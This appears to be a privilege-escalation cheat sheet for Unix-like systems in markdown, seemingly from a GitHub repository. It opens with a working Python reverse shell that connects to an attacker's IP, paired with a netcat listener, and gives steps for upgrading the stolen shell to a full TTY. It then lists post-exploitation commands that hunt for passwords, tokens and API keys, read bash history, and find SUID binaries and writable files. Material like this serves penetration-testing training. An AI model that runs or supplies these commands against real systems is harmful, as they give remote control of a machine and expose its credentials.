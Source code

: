 # BASIC PRIVILEGE ESCALATION ENUMERATION & EXPLOITATION
This document contains a list of useful commands for privilege escalation in Unix-like operating systems. These commands can help identify potential vectors for escalating privileges on a system. Most of them should be exploitable with the help of [GTFOBins](https://gtfobins.github.io/).

## Python Reverse Shell & Netcat Listener
It connects a compromised machine to an attacker's IP for remote command execution, while a Netcat listener waits on a specified port to receive incoming connections from such reverse shells.
#### Python TTY Reverse Shell
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.x.y",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```
#### Netcat listener
```
nc -nvlp 4444
```

## Upgrading to a TTY Shell
A TTY (teletypewriter) shell is a command-line interface that allows users to interact with the operating system through a terminal, enabling input and output of text commands and responses in a real-time, interactive session. It simulates the behavior of traditional teletypes, providing a way to execute commands and scripts in a Unix-like environment. There are a total 3 steps to spawning a successful TTY Shell:
- STEP-1: Run the below command to spawn a better-featured pretty-looking bash shell without tab autocomplete or the arrow keys.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- STEP-2: Run the below command to set or modify the PATH environment variable in a Unix-like OS.
```
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
```
- STEP-3: Run the below command to access term commands such as `clear`.
```
export TERM=xterm-256color
```
- STEP-4: Background the Session using the SHORTCUT: `CTRL + Z`.
- STEP-5: Run the below command to turn off the terminal echo (allowing tab autocompletes, arrow keys, and Ctrl + C process killing).
```
stty raw -echo; fg; reset
```
- STEP-6: (Optional) Run the below command to Set the terminal size to 200*200 for better readability.
```
stty columns 200 rows 200
```
---
## BASIC POST-EXPLOITATION ENUMERATION COMMANDS

### Finding Secret Files
- Searching for files containing sensitive information such as API keys, tokens, or passwords. It lists files based on specific keywords often associated with sensitive data.
```
find /home/ -type f -exec ls -lsha {} + | grep -E -i '.secret|secret|token|key|api|password|username|db_password|mysql_password|mysql_user|databasepassword|mysql_root_password|mysql_password|credentials|creds|pass'
```

### Finding SUID Files
- Finding the files with SUID (Set User ID) execution permissions of the file Owner which could be used to escalate privileges.
```
find / -perm -4000 -type f 2>/dev/null
```

### Finding SGID Files
- Finding the files with SGID (Set Group ID) execution permissions of the file Owner's group which could be used to escalate privileges.
```
find / -perm -2000 -type f 2>/dev/null
```

### Finding Capabilities of Files
- Recursively listing the capabilities of all files on the root file system, suppressing error messages.
```
getcap -r / 2>/dev/null
```

### Checking Permissions on /etc/passwd & /etc/shadow
- This command checks the permissions of the /etc/passwd file, which may be writable and could allow unauthorized modifications.
```
ls -la /etc/passwd && ls -la /etc/shadow
```

### Listing Scheduled Cron Jobs
- Viewing cron jobs can reveal scheduled tasks that may be leveraged for privilege escalation.
```
cat /etc/crontab && ls /etc/cron.* && crontab -l && ls /var/spool/cron/crontabs
```

### Searching for Passwords in Home Directory
- Searches for occurrences of the term "password" recursively within the /home directory, which may help locate files containing sensitive information.
```
cd /home && grep -rnH "password"
```

### Checking Sudo Permissions
- Finding out what SUDO privileges the current has (If any):
```
sudo -l
```

### Environment Variables
- This command lists all environment variables, which can sometimes include sensitive information like passwords.
```
env
```

### Accessing User's Bash History
- The following command displays the contents of the `.bash_history` file, which may contain sensitive information such as passwords that were previously entered in the terminal.
```
cat .bash_history
```

### Checking User and Host Information
- Checking user and group details can provide insight into potential privilege escalation opportunities.
```
whoami && id && hostname
```

### Finding Writable Files and Directories
- Identifying files and directories writable by the user can help in various privilege escalation scenarios.

Writable Files
```
find / -writable -type f 2>/dev/null
```
Writable Directories
```
find / -writable -type d 2>/dev/null
```

### Finding Executables in PATH
- Finding executables in the PATH environment variable can help identify potentially exploitable scripts or binaries.
```
echo $PATH | tr ':' '\n' | xargs -I {} find {} -type f -executable 2>/dev/null
```

Feel free to modify or expand upon this template based on your needs. If you have any specific commands or sections you’d like to add, let me know!
